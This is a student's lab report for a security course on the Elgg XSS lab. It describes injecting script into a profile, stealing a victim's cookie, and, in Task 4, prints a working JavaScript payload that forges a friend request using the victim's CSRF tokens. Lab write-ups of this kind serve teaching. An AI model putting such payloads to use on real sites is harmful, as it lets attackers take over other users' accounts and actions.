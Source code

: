 # Lab11

**Name:** 黎诗龙

**SID:** 11811407

## Task1

I add it here

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206142513231.png" alt="image-20201206142513231" style="zoom:80%;" />

Then I use Boby's account to see this:

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206142852758.png" alt="image-20201206142852758" style="zoom:50%;" />

## Task2

I also add it into the brief description, and using Boby's account to see this

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206142934924.png" alt="image-20201206142934924" style="zoom:50%;" />

## Task3

I use `ifconfig` to see my IPv4 address `192.168.44.133`, and add the script into Samy's profile.

Then I use Boby's account to see the Samy's profile. 

Here I steal the cookie:

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206143448693.png" alt="image-20201206143448693" style="zoom:67%;" />

## Task4

First launch an attempt to add Samy as a friend to see the Samy's id is `47`.

![image-20201206144443413](C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206144443413.png)

url = `http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1607265858&__elgg_token=uYYKAnlB7lUs2nCWFEd_pQ&__elgg_ts=1607265858&__elgg_token=uYYKAnlB7lUs2nCWFEd_pQ`, contains `ts` and `token`.

Then I modify the script as this:

```javascript
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
   	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
	//Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47"+ts+token;
	//Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```
